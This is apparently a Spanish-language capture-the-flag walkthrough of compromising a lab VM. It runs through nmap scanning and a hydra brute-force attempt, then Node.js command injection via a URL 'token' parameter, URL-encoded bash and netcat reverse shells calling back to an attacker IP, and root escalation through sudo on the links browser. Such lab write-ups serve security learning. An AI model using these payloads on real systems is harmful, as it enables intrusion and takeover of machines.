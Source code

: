 ## Reconocimiento
Comenzamos con el respectivo reconocimiento usando `nmap`.
``` bash
nmap -p- -sS -sCV --min-rate 5000 -n -Pn 192.168.0.104 -oG scan
```
![](_anexos_/Screenshot%20from%202023-12-13%2005-05-06.png)
- La versión de ssh en la 9.2p1, bastante actualizada, no hay mucho que hacer por ahi
- Tenemos el puerto 80 disponible, pero en realidad solo hay una pagina manual de apache
- En el puerto 5000 podemos ver lo que parece una app de nodejs, verificamos en el navegador

![](_anexos_/Screenshot%20from%202023-12-13%2005-08-22.png)
Si ingresamos cualquier texto en el campo de `name` nos devuelve una url con el siguiente formato (e.j. con el usuario pepe)
``` html
http://192.168.0.104:5000/?name=pepe&token=55569675
```
- Si modificamos el token en la url con más numeros, la pagina aún carga con 'normalidad'
- Si modificamos agregando un string nos salta un error relacionado con javascript

![](_anexos_/Screenshot%20from%202023-12-13%2005-20-13.png)

Acá podemos deducir:
- Un usuario `aleister`
- El directorio donde corre esta app se encuentra en `/home/aleister/website`

### SSH Force Brute
En este punto al tener un usuario podría resultar interesante ejecutar `hydra` para un ataque de fuerza bruta a través de ssh
``` bash
hydra -l aleister -P /usr/share/dict/rockyou.txt ssh://192.168.0.104 
## SPOILER: no funciona
```
### Javascript Command Injection
En este punto, podemos probar si la url es vulnerable a algun tipo de _command injection_ en el payload.
- El campo user es equivalente al texto que le agregamos en la cajita de nombre y en realidad no ejecuta ningun comando por detras. 
- El campo token ha respondido a la inyección de nuestro codigo javascript que ejecuta en la shell un timer de 5 segundos.
	
```javascript
require('child_process').execSync('sleep 5');
```

Para evitar problemas con los espaciados y saltos de linea en la url le mandamos la instrucción en formato `url-encoded`
``` html
http://192.168.0.104:5000/name=pepe&token=require%28%27child_process%27%29.execSync%28%27sleep%205%27%29%3B
```
Comprobado esto, procedemos a mandar una reverse shell para que nos pueda otorgar una consola desde la que podemos operar. 
- Primeramente nos ponemos en escucha con `ncat` por el puerto 4444.
	``` bash
	ncat -lvp 4444
	```
- Ejecutamos el ya conocido reverse shell por el protocolo TCP a través de bash
	``` bash
	bash -i >& /dev/tcp/192.168.0.107/4444 0>&1 # IP maquina atacante
	```
	La url quedaria de esta forma (con el url-encoded)
	``` html
	http://192.168.0.104:5000/?name=pepe&token=require%28%27child_process%27%29.execSync%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.0.107%2F4444%200%26%3E1%27%29%3B
	```

##### LECTURA OPCIONAL: POSIX y los problemas con la sintaxis stderr/stdout estandar

Ver: [POSIX y los problemas con stdout - stdeer](POSIX%20y%20los%20problemas%20con%20stdout%20-%20stdeer.md)

#### Reverse shell con netcat
Entonces como tenemos ese problema con sh, podemos buscar otras formas de hacer la `reverse shell`, por ejemplo con `ncat`.
``` bash
nc -e /bin/sh 192.168.0.107 4444
```
Con la url _url-encodeada_, quedaria:
``` html
http://192.168.0.104:5000/?name=pepe&token=require%28%27child_process%27%29.execSync%28%27nc%20-e%20%2Fbin%2Fsh%20192.168.0.107%204444%27%29%3B
```
Ejecutamos y... Bingo!

## Escalada de privilegios (Privesec)
### Tratamiento de la tty
Lo primero que vamos a resolver es la cuestión de la tty. Ejecutamos los siguientes comandos en el ncat que estaba en escucha por el 4444.

Ver: [Linux Full TTY (Interective shell)](Linux%20Full%20TTY%20(Interective%20shell).md)
### Reconocimiento de la maquina victima
Si ejecutamos `sudo -l` podemos ver que tenemos la app ubicada en `/usr/bin/links` que podemos ejecutar como `root` sin necesidad de presentar una contraseña. Probamos, en realidad no parece salir nada, pero si presionamos `Esc` podemos ver un panel de opciones.

![](_anexos_/Screenshot%20from%202023-12-14%2000-54-27.png)
### Ascenso a root
Si buscamos las opciones entre los paneles, podemos ver que en el apartado _File_ existe una opción llamada _OS shell_.

![](_anexos_/Screenshot%20from%202023-12-14%2000-57-01.png)
Si ejecutamos esa opción como tal, nos devolvera una shell como el usuario root. Eso es todo.
##### OPCIONAL: Posibilidad de ascender a root a través de una reverse shell desde una pagina en el navegador (?)
La idea de este punto es poder ejecutar alguna pequeña pagina en la cual le puedas inyectar codigo que se ejecute como `client-side` (nosotros desde el navegador somos el cliente) que probablemente se termine ejecutando como root. Solo es una idea igual y no se si es posible, si bien investigando encontre que hay muchos problemas a la hora de ejecutar comandos en el lado del cliente (lo cual tiene sentido por razones de seguridad).

